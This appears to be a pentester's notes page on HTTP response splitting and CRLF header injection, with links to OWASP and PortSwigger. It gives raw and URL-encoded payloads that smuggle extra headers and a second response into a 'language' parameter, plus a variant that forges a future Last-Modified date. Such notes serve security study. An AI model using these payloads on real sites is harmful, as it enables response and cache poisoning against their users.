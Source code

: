 # GENERAL
<details><summary> HTTP SPLITTING </summary>
<p>

### (part 1)
Using [urlencoder](https://www.urlencoder.org/) under 'destination newline seperator' select 'Unix'
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 10
<html>Test</html>
```

turns to
```
language%3Den%0AContent-Length%3A%200%0A%0AHTTP%2F1.1%20200%20OK%0AContent-Type%3A%20text%2Fhtml%0AContent-Length%3A%2010%0A%3Chtml%3ETest%3C%2Fhtml%3E%0A%0A
```

Note: 
But you will notice that using the `%0a` works while `%0a%0d` doesn't. This is due to the underlying os environment that the application is running on: windows uses two characters for the *CR LF* sequence, while unix only uses *LF*.


| Environment  | CRLF Used  | encoded |
| ------------ |----------- | ------- |
| Windows      | CRLF       | %0d%0a  |
| Unix         | LF         | %0a     |

[https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types](https://stackoverflow.com/questions/1552749/difference-between-cr-lf-lf-and-cr-line-break-types)

### CRLF / HTTP header injection
[https://owasp.org/www-community/attacks/HTTP_Response_Splitting](https://owasp.org/www-community/attacks/HTTP_Response_Splitting)

[https://portswigger.net/kb/issues/00200200_http-response-header-injection](https://portswigger.net/kb/issues/00200200_http-response-header-injection)

### log poisoning using CRLF
[https://www.netsparker.com/blog/web-security/crlf-http-header/](https://www.netsparker.com/blog/web-security/crlf-http-header/)


### (part 2)
Note: inject the `Last-Modified` date to a future date which forces the browser to send an `If-Modified-Since` request header to future requests
*encode uri for below*
```
language=en
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 1 Jan 2030 00:00:00 GMT
Content-Length: 4
<html>Test</html>
```
</p>
</details>
